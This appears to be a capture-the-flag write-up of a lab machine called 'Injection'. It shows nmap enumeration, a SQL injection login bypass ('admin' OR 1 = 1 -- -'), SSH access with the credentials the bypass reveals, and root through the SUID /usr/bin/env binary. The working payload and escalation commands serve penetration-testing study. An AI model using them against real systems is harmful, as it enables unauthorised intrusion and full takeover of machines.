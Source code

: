 # Injection

## Recognition and Enumeration.

Check that the machine is running.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Once the ping responds, we can start enumerating the machine. The ttl=64 can indicate that it is a **Linux** machine.

We launch nmap to see what ports it finds.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Performs a SYN scan.
- `-p-`: Scans all ports.
- `--open`: Shows only open ports.
- `--min-rate 5000`: Sets the minimum packet sending speed to 5000 per second.
- `-vvv`: Generates very detailed and verbose output.
- `-n`: Avoids reverse DNS resolution.
- `-Pn`: Skips host detection.
- `-oG allPorts`: Saves the results to a file called "allPorts".
- `172.17.0.2`: The IP address of the target host.

```bash
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 64
80/tcp open http syn-ack ttl 64
```

Since we have ports 22 and 80 open, we are going to check the version and run some basic scripts to see what information we get.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Scan for versions and vulnerabilities.
- `-p22,80`: Scan for ports 22 (SSH) and 80 (HTTP).
- `-vvv`: Very verbose and verbose output.
- `-oN versionPorts`: Save the results in "versionPorts".
- `172.17.0.2`: IP address of the scanned host.

```bash
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ9UrfkzVjvriOVFwT9rOHz6XGJrVwKK/A6RMody6c0ovLNeCgaU6kCb+dGPPeXwCaio++IwxYm0SxRGYITrhr4=
| 256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJV4CYnqtqSQxWkpfq7xR8DG/nHJfLXDhtkyMHA5pLhO
80/tcp open http syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Exploit.
We go directly to enumerate port 80 from the browser and we see that there is a login form. We try a sql injection.
```bash
User: admin' OR 1 = 1 -- -
Password: hello
```
And it directly takes us to a page with a message containing the username and password.

```bash
Welcome Dylan! You have correctly entered your password: KJSDFG789FGSDF78
```
With port 22 (SSH) open, we try the username and password that they have provided us and enter the machine.
```bash
❯ ssh dylan@172.17.0.2
dylan@172.17.0.2's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.5.0-kali3-amd64 x86_64)

 * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu May 16 16:44:37 2024 from 172.17.0.1
dylan@b5df33a8267a:~$
```
## Privilege escalation.
The first thing is to look for binaries with SUID permissions to do the escalation.
```bash
find / -perm -4000 2>/dev/null
```
```bash
dylan@b5df33a8267a:~$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```
If we go to [GTOFBins](https://gtfobins.github.io/gtfobins/env/), we see that with the binary **/usr/bin/env** we can run a bash with root privileges.
```bash
/usr/bin/env /bin/sh -p
```
```bash
dylan@b5df33a8267a:~$ /usr/bin/env /bin/sh -p
# whoami
root
#
```
